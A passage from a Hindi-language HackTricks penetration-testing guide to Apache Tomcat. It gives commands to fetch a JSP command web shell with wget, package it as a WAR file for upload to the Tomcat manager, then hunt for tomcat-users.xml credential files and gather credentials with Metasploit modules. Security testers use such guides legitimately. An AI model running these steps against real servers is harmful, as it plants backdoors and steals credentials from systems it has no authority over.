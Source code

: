 ### मैनुअल विधि 2

एक JSP वेब शेल प्राप्त करें जैसे [यह](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) और एक WAR फ़ाइल बनाएं:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST

Tomcat क्रेडेंशियल्स फ़ाइल का नाम _tomcat-users.xml_ है
```bash
find / -name tomcat-users.xml 2>/dev/null
```
Tomcat क्रेडेंशियल्स इकट्ठा करने के अन्य तरीके:
```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```
## अन्य टॉमकैट स्कैनिंग उपकरण

* [https://github.com/p0dalirius/ApacheTomcatScanner](https://github.com/p0dalirius/ApacheTomcatScanner)

## संदर्भ

* [https://github.com/simran-sankhala/Pentest-Tomcat](https://github.com/simran-sankhala/Pentest-Tomcat)
* [https://hackertarget.com/sample/nexpose-metasploitable-test.pdf](https://hackertarget.com/sample/nexpose-metasploitable-test.pdf)


{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricks का समर्थन करें</summary></details>
{% endhint %}
